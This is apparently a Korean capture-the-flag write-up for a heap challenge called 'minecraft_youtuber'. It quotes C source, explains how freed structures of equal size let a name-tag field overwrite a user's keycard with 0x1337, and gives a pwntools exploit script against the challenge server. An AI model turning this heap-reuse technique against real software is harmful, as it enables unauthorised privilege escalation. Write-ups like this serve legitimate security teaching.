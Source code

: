 # minecraft_youtuber

## 코드 분석

```c
            case 7:
		            [...]
                if (curr_user->keycard == 0x1337) {
                    printf("You have freed Loki! In gratitude, he offers you a flag!\n");
                    FILE* flag = fopen(filename, "r");
                    if (flag == NULL) {
                        printf("Flag file not found. Please contact an admin.\n");
                        return EXIT_FAILURE;
                    } else {
                        char ch;
                        while ((ch = fgetc(flag)) != EOF) {
                            printf("%c", ch);
                        }
                    }
                    fclose(flag);
                    exit(0);
                    break;
                }
```

`curr_user->keycard` 의 값이 0x1337일 경우, flag를 출력해 준다.

```c
typedef struct {
    long uid;
    char username[8];
    long keycard;
} user_t;

typedef struct {
    long mfg_date;
    char first[8];
    char last[8];
} nametag_t;

void log_out() {
    free(curr_user);
    curr_user = NULL;
    if (curr_nametag != NULL) {
        free(curr_nametag);
        curr_nametag = NULL;
    }
}
```

`log_out()` 호출 시, `curr_user` → `curr_nametag`의 순으로 free가 이루어진다.

`user_t`와 `nametag_t`는 size가 동일하므로, `logout()` 후 `register_user()`를 호출하게 되면 `nametag_t.last`의 값으로 `user_t.keycard`를 덮을 수 있게 된다.

## 익스플로잇 코드

```python
from pwn import *

# r = process("./minecraft")
r = remote("minecraft.chal.cyberjousting.com", 1354)

def menu(cmd):
    r.sendlineafter(b"6. Leave\n", str(cmd).encode())
    

r.sendafter(b"username now: \n", b"dandb")

while True:
    menu(3)
    r.recvuntil(b"You have received a ")
    if r.recvuntil(b"!") == b"Name Tag!":
        # r.interactive()
        r.recvuntil(b"last name:\n")
        r.send(b"AAAAAAAA")
        r.send(p64(0x1337))
        break
    
menu(5)

r.sendafter(b"username now: \n", b"dandb")
menu(7)

    
r.interactive()
```